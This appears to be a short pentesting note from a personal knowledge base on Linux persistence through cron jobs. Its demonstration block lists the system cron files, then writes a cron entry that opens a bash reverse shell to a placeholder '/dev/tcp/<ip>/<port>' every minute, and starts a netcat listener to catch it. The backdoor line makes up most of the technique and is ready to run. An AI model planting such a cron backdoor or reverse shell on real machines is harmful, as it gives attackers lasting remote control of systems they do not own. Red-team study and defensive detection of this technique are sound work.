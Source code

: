 ```yaml
---
up: "[[Linux Persistence]]"
---
```


# Persistence via Cron Jobs

- Task scheduling is done via `Cron`, a time based service running applications
- We can use cron jobs to execute a script at an interval to ensure we persist on the target 

## Demonstration

```bash
ssh <user>@<ip>
# list cron jobs
$ cat /etc/cron*
# create backdoor cron jobs
$ echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1" > my_cron
nc -lvnp <port>
```

